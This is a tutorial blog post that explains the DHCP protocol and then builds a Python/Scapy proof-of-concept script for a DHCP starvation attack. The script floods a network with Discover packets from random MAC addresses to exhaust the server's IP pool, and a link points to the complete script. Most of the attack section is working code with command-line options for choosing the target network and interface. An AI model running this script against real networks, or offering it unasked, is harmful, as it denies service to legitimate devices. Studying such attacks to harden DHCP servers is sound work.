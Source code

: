 ```yaml
---
title: Performing a DHCP starvation attack
pubDate: "March 09 2024"
description: Understanding and performing a DHCP starvation attack over DHCP servers and networks.
tags: ["security", "networks", "hacking", "python"]
heroImage: "/blog/2024-03-09-dhcp-starvation-attack/logo.png"
---
```


To understand what a DHCP starvation attack is, it is important to understand what a DHCP server is and how this protocol works. A DHCP server is a network component in charge of assigning IPs to different devices, associating the physical or MAC address to an IP. This process allows communication between the different devices, using the assigned IPs to identify each other and communicate. The DHCP protocol has up to 4 phases that make it up.
The first phase is the discovery phase, in which a client connecting to the network broadcasts a DHCP discovery message or "DHCP Discover". The purpose of this message is to find a DHCP server by sending a broadcast message from which it will expect a response.
The second phase is the offer phase. In this phase the DHCP server responds to the initial message with an offer of an available IP address (also known as a "DHCP Offer") and a number of other network parameters.
The third phase is the request phase. In this phase, the client makes a request in order to accept the DHCP server's offer. This message is called "DHCP Request". This message is also broadcast in order to additionally inform the other DHCP servers (if any) that their offers have been rejected in favor of another server.
The fourth and last phase is the acknowledgement phase. In this phase the DHCP server issues the confirmation to the client by means of a message called "DHCP ACK". From this point on, the client can start communicating over the network.

A "DHCP starvation" attack is a type of malicious attack targeting networks that use the DHCP protocol for IP address allocation. The goal of this attack is to exhaust all the IP addresses available to the DHCP server in order to make it impossible for new devices to connect to the server, even causing a denial of service attack. For them we just need to generate multiple DHCP server discovery packets with different MAC addresses in order to exhaust all of them. Additionally, we can respond to all offers by accepting and occupying them. In this way we will exhaust all IP addresses, preventing new devices from connecting.

Next we are going to see how to do a small proof of concept of this attack, developing a Python script. The first thing to do is to install the necessary dependencies, in this case, the network packet manipulation library "Scapy".

```sh
pip install scapy
```

Let's start with the python code. Before starting to build packets, it is necessary to configure Scapy to ignore IP address verification responses, since we will be sending packets with forged IP addresses.

```python
conf.checkIPaddr = False
```

Once the basic configuration of Scapy is done, we move on to define our main function "starve". This function will receive a dictionary of parameters. It is not the best way to do this step, but for a quick script it is enough. The main parameters we will use will be: Delay time between each packet sent, network to attack and network interface through which we want to perform the attack.

```python
def starve(params):
    delay = params['delay'] if params.get('delay') is not None else 0.5
    network = params['network'] if params.get('network') is not None else '192.168.1.0/24'
    interface = params['interface'] if params.get('interface') is not None else 'eth0'
    is_verbose = params['verbose'] if params.get('verbose') is not None else 1
```

In the main loop of the starve function, we generate DHCP Discover packets with random MAC addresses, requesting specific IP addresses within the target network. Although in this case, we are not responding to the DHCP server's offer, if the DHCP server is not properly configured, it will keep a small session waiting for us to accept the offer or not. By sending multiple requests with different physical addresses, we will quickly cover all the addresses, which will be reserved waiting for our response.

```python
for ip_dir in ips_for_feeding:
    src_mac = RandMAC()

    ether = Ether(src=src_mac, dst='ff:ff:ff:ff:ff:ff')
    ip = IP(src='0.0.0.0', dst='255.255.255.255')
    udp = UDP(sport=68, dport=67)
    bootp = BOOTP(op=1, chaddr=src_mac)
    dhcp = DHCP(options=[
        ('message-type', 'discover'), 
        ('requested_addr', str(ip_dir)),
        ('end')])

    packet = ether / ip / udp / bootp / dhcp

    sendp(packet, iface=interface, verbose=is_verbose)

    sleep(delay)
```

Finally and outside the function, we will add the command line arguments so that the user can specify all the above parameters. This will be done using the "argparse" library already included in python.

```python
if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument(
        '--network', 
        type=str,
        nargs='?',
        help='IP address of the network (e.g. 192.168.1.0/24)',
    )
    parser.add_argument(
        '--delay', 
        type=str,
        nargs='?',
        help='Delay in seconds for each packet',
    )
    parser.add_argument(
        '--interface', 
        type=str,
        nargs='?',
        help='Interface to attack (eth0 as default)',
    )
    parser.add_argument(
        '--verbose', 
        type=int,
        nargs='?',
        help='Verbose mode 1=ON 0=OFF (1 as default)',
    )
    params = vars(parser.parse_args())
    starve(params)
```

The complete script code: [basic_dhcp_starvation_attack.py](https://gist.github.com/jparadadev/ade6fa41d8e86f35c04bac09af86aa09)


